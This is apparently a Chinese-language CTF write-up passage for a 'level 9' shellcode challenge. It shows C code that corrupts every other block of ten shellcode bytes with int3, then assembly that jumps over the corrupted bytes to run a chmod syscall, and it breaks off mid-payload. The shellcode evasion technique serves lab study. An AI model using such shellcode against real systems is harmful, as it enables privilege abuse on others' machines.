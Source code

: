 ## 其他方法【待补充...】
# level 9 对shellcode 执行之前修改部分数据
```c
for (int i = 0; i < shellcode_size; i++)
{
    if ((i / 10) % 2 == 1)             // (i / 10) ==   1,3,5,7,9.......,===> i = 1x,3x,5x,7x,9x......
    {
        ((unsigned char *) shellcode_mem)[i] = '\xcc';   //int3中断指令
    }
}
```
```python
    push 0x66       # 2
    mov rdi,rsp      # 3
    push 4          # 2
    jmp one
    nop           # 中间任意填充即可
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
one:
    pop rsi			# 2
    mov al,0x5a         # 2
    syscall          # 2
```
```
Address      |                      Bytes                    |          Instructions
------------------------------------------------------------------------------------------
0x0000000016ec6000 | 6a 41                                         | push 0x41
0x0000000016ec6002 | 48 89 e7                                      | mov rdi, rsp
0x0000000016ec6005 | 6a 04                                         | push 4
0x0000000016ec6007 | eb 0b                                         | jmp 0x16ec6014
0x0000000016ec6009 | 90                                            | nop 
0x0000000016ec600a | cc                                            | int3 
0x0000000016ec600b | cc                                            | int3 
0x0000000016ec600c | cc                                            | int3 
0x0000000016ec600d | cc                                            | int3 
0x0000000016ec600e | cc                                            | int3 
0x0000000016ec600f | cc                                            | int3 
0x0000000016ec6010 | cc                                            | int3 
0x0000000016ec6011 | cc                                            | int3 
0x0000000016ec6012 | cc                                            | int3 
0x0000000016ec6013 | cc                                            | int3 
0x0000000016ec6014 | 5e                                            | pop rsi
0x0000000016ec6015 | b0 5a                                         | mov al, 0x5a
0x0000000016ec6017 | 0f 05                                         | syscall 
```
```python
shellcode = asm("""
    /*  chmod('A',777) */
    push 0x41
    mov rdi, rsp
    push 777
    pop rsi
    jmp continue
```